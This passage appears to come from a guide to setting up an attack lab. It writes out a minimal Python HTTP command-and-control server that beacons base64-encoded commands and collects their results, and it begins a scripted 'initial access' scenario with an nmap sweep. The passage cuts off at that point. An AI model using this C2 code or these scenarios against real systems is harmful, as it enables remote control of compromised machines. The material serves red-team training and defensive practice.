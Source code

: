 ### 6. Command and Control (C2) Setup

#### Simple HTTP C2 Server
```bash
# Create simple C2 server
sudo tee /opt/simple-c2-server.py > /dev/null <<'EOF'
#!/usr/bin/env python3
import http.server
import socketserver
import base64
import subprocess
import threading
import time

PORT = 8080

class C2Handler(http.server.SimpleHTTPRequestHandler):
    def do_GET(self):
        if self.path == '/beacon':
            self.send_response(200)
            self.send_header('Content-type', 'text/plain')
            self.end_headers()
            
            # Simple command queue (in real scenario, use database)
            command = "whoami"  # Default command
            self.wfile.write(base64.b64encode(command.encode()).encode())
            
        elif self.path.startswith('/result/'):
            # Receive command results
            result = base64.b64decode(self.path.split('/')[-1]).decode()
            print(f"[+] Command result: {result}")
            
            self.send_response(200)
            self.end_headers()
        else:
            super().do_GET()

if __name__ == "__main__":
    with socketserver.TCPServer(("", PORT), C2Handler) as httpd:
        print(f"[+] C2 Server running on port {PORT}")
        httpd.serve_forever()
EOF

chmod +x /opt/simple-c2-server.py
```

### 7. Attack Scenarios

#### Create Attack Scenario Scripts
```bash
# Create attack scenarios directory
sudo mkdir -p /opt/attack-scenarios

# Scenario 1: Initial Access
sudo tee /opt/attack-scenarios/01-initial-access.sh > /dev/null <<'EOF'
#!/bin/bash
echo "[+] Attack Scenario 1: Initial Access"
echo "[+] Target: Vulnerable Windows and Linux systems"

# Network discovery
echo "[+] Step 1: Network Discovery"
nmap -sn 10.0.2.0/24

```